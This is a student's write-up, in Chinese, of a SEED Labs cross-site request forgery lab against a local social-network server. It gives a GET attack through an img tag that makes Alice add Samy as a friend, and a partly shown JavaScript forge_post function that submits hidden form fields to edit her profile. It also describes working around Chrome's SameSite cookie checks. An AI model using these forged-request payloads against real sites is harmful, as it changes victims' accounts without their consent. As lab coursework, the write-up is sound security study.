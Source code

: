 # Task 2 CSRF Attack using GET Request

首先要看一下正常加好友的请求是什么样的，所以先用alice加一下samy。

![Untitled](/assets/img/2024-04-25-Cross-Site Request Forgery Attack Lab/Untitled%205.png)

然后用samy发一个博客，博客中附上一个图片，图片的URL是添加好友的请求，也就是”http://www.seed-server.com/action/friends/add?friend=59”，这样alice访问samy的引人入胜的博客的时候就会发送一个这个URL的请求，然后就会主动添加samy为好友。

> 这里我没认真读lab的要求，所以下边是我自己想可以达到同样效果的一个攻击办法。
> 

![Untitled](/assets/img/2024-04-25-Cross-Site Request Forgery Attack Lab/Untitled%206.png)

可以看到在访问博客的过程中，alice发送了一个这个请求，然后就会成功添加samy为好友。

![Untitled](/assets/img/2024-04-25-Cross-Site Request Forgery Attack Lab/Untitled%207.png)

经过我测试开启了Chrome的标准防御也会添加好友。

以上是错误示范，接下来回到正规做法。

在index.html中加入下面这一句

```html
<img src="http://www.seed-server.com/action/friends/add?friend=59" />
```

alice访问这个页面的时候就会尝试去加载这个URL，然后发出好友请求。

![Untitled](/assets/img/2024-04-25-Cross-Site Request Forgery Attack Lab/Untitled%208.png)

观察发现跨域访问是没有cookie的，上网查了一下chrome取消了这个关闭samesite的选项，也就是说无论如何都关闭不了chrome的同源cookie检查。

Chrome太强了，javascript也不行，我找到了一个84版本的chrome，关闭了他的samesite flag，最后才成功。

后来发现其实这个lab的结构是希望我们写到”addfriend.html”里边，但这不重要。

# **Task 3 CSRF Attack using POST Request**

首先修改一次profile能观察到POST的payload。

![Screenshot 2024-04-19 at 11.33.31 PM.png](/assets/img/2024-04-25-Cross-Site Request Forgery Attack Lab/Screenshot_2024-04-19_at_11.33.31_PM.png)

这里事先查到了Alice的guid是56，所以成功修改她的profile，修改JS代码如下：

```jsx
function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
```